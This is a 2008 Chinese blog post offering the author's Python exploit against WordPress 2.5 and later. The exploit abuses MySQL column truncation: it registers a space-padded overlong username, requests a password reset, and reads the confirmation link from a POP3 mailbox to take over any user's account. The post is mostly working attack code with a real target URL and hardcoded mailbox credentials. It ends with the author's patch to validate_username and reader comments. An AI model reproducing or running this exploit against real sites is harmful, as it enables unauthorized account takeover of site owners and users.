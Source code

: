 title: wordpress漏洞利用-更改任意用户的密码
tags:
  - exploit
  - Python
  - wordpress
id: 311
categories:
  - 编程相关
date: 2008-09-09 17:06:27
---

最近wordpress又出现了一个漏洞，详细描述见这里:[http://milw0rm.com/exploits/6397](http://milw0rm.com/exploits/6397)，关于漏洞的形成原因这里:[http://www.suspekt.org/2008/08/18/mysql-and-sql-column-truncation-vulnerabilities/](http://www.suspekt.org/2008/08/18/mysql-and-sql-column-truncation-vulnerabilities/)有很好的描述，主要原因是由于wordpress对用户名的检查不足，使得过长的用户名可以注册，从而产生这个问题。

贴一下我写的利用工具，针对2.5及以上版本，可以更改（这里用重置更恰当）任意用户的密码，当然前提是这个wordpress开放了注册：
```
#!/usr/bin/env python
#coding=utf-8
#author: cocobear.cn@gmail.com
#website:http://cocobear.github.io

""" exploit description:
        http://milw0rm.com/exploits/6397
    influencing:
        wordpress 2.5 and above
    This short code can change any user's password.
"""

import urllib,cookelib,urllib2,httplib
import sys
import poplib

#all you need to do is change this two lines:
base_url = "http://c.kensou.me/blog/"
hack_user= "cocobear"

def init():
    cookie = cookielib.CookieJar()
    opener = urllib2.build_opener(urllib2.HTTPCookieProcessor(cookie))

    exheaders = [("User-Agent","Opera/9.27 (X11; Linux x86_64; U; en)"),("Connection","Keep-Alive"),("Referer","http://zzfw.sn.chinamobile.com"),("Accept","text/html, application/xml;q=0.9, application/xhtml+xml, image/png, image/jpeg, image/gif, image/x-xbitmap, */*;q=0.1"),("Accept-Charset","iso-8859-1, utf-8, utf-16, *;q=0.1"),("Cookie2","$Version=1"),]

    opener.addheaders = exheaders
    urllib2.install_opener(opener)
    return opener

def register(opener):
    global base_url,hack_user,hack_mail

    #register a hack user
    num = 60 - len(hack_user)
    hack_user = hack_user + " "*num + "x"
    body = (("user_login",hack_user),("user_email",hack_mail),)
    ret  = opener.open(base_url+"action=register",urllib.urlencode(body))
    print ret.read()
    exit()

def change_passwd(opener):
    global base_url,hack_mail,hack_pass

    body = (("user_login",hack_mail),)
    print body
    ret  = opener.open(base_url+"action=lostpassword",urllib.urlencode(body))

    print ret.read()

    #get confirm mail
    pop = poplib.POP3('pop.sina.com')
    pop.user(hack_mail)
    pop.pass_(hack_pass)
    count = pop.stat()[0]
    try:
        data = pop.retr(count)[1]
    except poplib.error_proto:
        print 'get mail error'
        return -1

    for l in data:
        if l.startswith(base_url):
            confirm_url = l
            print "Successful!"

    #visit confirm mail
    ret = opener.open(confirm_url)
    #print ret.read()

def main(argv=None):
    opener=init()
    register(opener)
    change_passwd(opener)

hack_mail= "wordpress_sql@sina.com"
hack_pass= "1234566"

base_url+= "wp-login.php?"

if __name__ == "__main__":
    sys.exit(main())
```

大家不用试我的博客了，我自己打补丁了：
```
function validate_username( $username ) {
       /* if (strlen($username) > 60) {
                return False;
        }
       */
        $sanitized = sanitize_user( $username, true );
        $valid = ( $sanitized == $username );
        return apply_filters( 'validate_username', $valid, $username );
}
```
修改wp-includes/registration.php文件中的validate_username函数，注释部分是我添加的。
## Comments

**[orz](#4182 "2008-09-09 21:35:19"):** 你好，请问这段代码如何编译呢～

**[nihuo13](#4183 "2008-09-09 23:32:50"):** cookelib应该是cookielib吧?

**[luguo](#4180 "2008-09-09 17:30:47"):** Orz

**[Amankwah](#4185 "2008-09-10 07:13:47"):** 为什么要开放注册呢？

**[草儿](#4323 "2008-09-17 15:08:39"):** 我只是在前几天看到这篇新闻后把注册关闭了，你倒是够狠，直接把程序都写出来了…… 这几天干嘛呢，一直不见你？

**[crazyfranc](#4247 "2008-09-16 21:21:00"):** 不开放就没那么多事了!

